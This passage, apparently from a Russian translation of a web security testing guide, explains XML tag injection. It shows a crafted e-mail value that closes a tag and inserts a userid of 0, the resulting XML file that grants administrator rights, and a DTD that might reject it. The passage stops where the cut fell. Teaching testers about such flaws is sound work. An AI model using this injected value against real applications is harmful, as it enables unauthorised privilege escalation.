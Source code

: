### Инъекция тегов

Как только первый шаг будет выполнен, тестировщик получит некоторую информацию о структуре XML-документа. Затем можно попробовать вставить свои XML-данные и теги. Мы покажем пример того, как это может привести к атаке с повышением привилегий.

Рассмотрим предыдущее приложение. Вставив следующие значения:

```txt
Username: tony
Password: Un6R34kb!e
E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com
```

приложение создаст новый узел и добавит его в XML-базу данных:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password>
        <userid>500</userid>
        <mail>s4tan@hell.com</mail>
        <userid>0</userid>
        <mail>s4tan@hell.com</mail>
    </user>
</users>
```

Результирующий XML-файл имеет правильный формат. Более того, вполне вероятно, что для пользователя tony значение, связанное с тегом userid, будет последним, т.е. 0 (идентификатор администратора). Другими словами, мы добавили пользователя с правами администратора.

Единственная проблема заключается в том, что тег userid появляется дважды в последнем пользовательском узле. Часто XML-документы связаны с xsd-схемой или DTD и будут отклонены, если не соответствуют им.

Предположим, что документ XML определяется следующим DTD:

```xml
<!DOCTYPE users [
    <!ELEMENT users (user+) >
    <!ELEMENT user (username,password,userid,mail+) >
    <!ELEMENT username (#PCDATA) >
    <!ELEMENT password (#PCDATA) >
    <!ELEMENT userid (#PCDATA) >
    <!ELEMENT mail (#PCDATA) >
]>
```
